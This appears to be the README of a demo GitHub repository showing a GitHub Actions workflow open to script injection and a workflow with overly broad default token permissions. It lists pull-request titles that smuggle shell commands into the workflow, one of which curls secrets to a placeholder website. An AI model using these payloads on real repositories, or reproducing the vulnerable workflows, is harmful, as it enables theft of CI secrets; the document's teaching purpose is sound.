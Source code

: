 # Example Repo

This is a super simple example repository!

## Structure
* 'script-injection.yml'
  * Workflow vulnerable to script injection
    * Create a PR with title `a";echo Got your secrets"`
      * Echo in workflow execution
    * Create a PR with title `a";curl http:/...MyWebSite...?abc=$YourSecrets"`
      * Extract your secrets and curl to your website
* 'label-issues-real.yml'
  * Workflow which assigns the bug label when the issue's title contains bug word
    * It could make whatever since we aren't restricting workflow's permissions
    * GITHUB_TOKEN without restrictive permissions, just the default ones https://docs.github.com/en/actions/security-guides/automatic-token-authentication#permissions-for-the-github_token